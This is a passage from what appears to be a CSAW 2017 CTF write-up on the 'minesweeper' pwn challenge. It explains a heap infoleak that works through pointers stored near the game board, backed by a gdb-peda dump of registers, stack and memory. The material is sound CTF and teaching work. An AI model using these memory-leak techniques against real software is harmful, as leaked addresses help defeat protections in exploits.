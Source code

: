 #### Heap Infoleak

The next infoleak we will need will be from the heap. Luckily for us, as a part of the custom malloc, there are heap pointers stored near our board which will be printed. This is using the same breakpoints as the Stack infoleak, and with an initialized `5 X 5` board containning 5 `X`s and 20 `0`s:

```
[----------------------------------registers-----------------------------------]
EAX: 0x8048b70 (push   DWORD PTR [ebp-0x14])
EBX: 0x0 
ECX: 0x4 
EDX: 0xffffce54 --> 0x56 ('V')
ESI: 0xf7fb2000 --> 0x1b1db0 
EDI: 0xf7fb2000 --> 0x1b1db0 
EBP: 0xffffce98 --> 0xffffcee8 --> 0xffffcf08 --> 0xffffcf58 --> 0x0 
ESP: 0xffffce20 --> 0x4 
EIP: 0x8048b7c (call   0x80488db)
EFLAGS: 0x283 (CARRY parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048b73:	push   DWORD PTR [ebp-0x10]
   0x8048b76:	push   DWORD PTR [ebp-0xc]
   0x8048b79:	push   DWORD PTR [ebp+0x8]
=> 0x8048b7c:	call   0x80488db
   0x8048b81:	add    esp,0x10
   0x8048b84:	jmp    0x804904a
   0x8048b89:	add    DWORD PTR [ebp-0x18],0x1
   0x8048b8d:	cmp    DWORD PTR [ebp-0x18],0x10
Guessed arguments:
arg[0]: 0x4 
arg[1]: 0x804c024 ("XXXXX", '0' <repeats 19 times>, "\022")
arg[2]: 0x5 
arg[3]: 0x5 
[------------------------------------stack-------------------------------------]
0000| 0xffffce20 --> 0x4 
0004| 0xffffce24 --> 0x804c024 ("XXXXX", '0' <repeats 19 times>, "\022")
0008| 0xffffce28 --> 0x5 
0012| 0xffffce2c --> 0x5 
0016| 0xffffce30 --> 0x4 
0020| 0xffffce34 --> 0x804a704 ("\nHi. Welcome to Minesweeper. Please select an option:\n1) N (New Game)\n2) Initialize Game(I)\n3) Q (Quit)\n")
0024| 0xffffce38 --> 0xef3c19 
0028| 0xffffce3c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Thread 2.1 "minesweeper" hit Breakpoint 1, 0x08048b7c in ?? ()
gdb-peda$ x/x 0x804c024
0x804c024:	0x58585858
gdb-peda$ x/20g 0x804c024
0x804c024:	0x3030305858585858	0x3030303030303030
0x804c034:	0x3030303030303030	0x0804c1142d2d0012
0x804c044:	0x5f5f5f5f0804c000	0x5f5f5f5f5f5f5f5f
0x804c054:	0x6173776f63203c0a	0x6e696d20333c2079
0x804c064:	0x7265706565777365	0x2d2d2d2d200a3e20
0x804c074:	0x2d2d2d2d2d2d2d2d	0x2020202020202020
0x804c084:	0x20202020200a2020	0x5f2c2020205c2020
0x804c094:	0x2020202020202c5f	0x20202020200a2020
0x804c0a4:	0x6f2820205c202020	0x20205f5f5f5f296f
0x804c0b4:	0x20202020200a2020	0x5f28202020202020
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x0804b000 r-xp	/Hackery/csaw17/pwn/minesweeper/minesweeper
0x0804b000 0x0804c000 rwxp	/Hackery/csaw17/pwn/minesweeper/minesweeper
0x0804c000 0x0804d000 rwxp	[heap]
```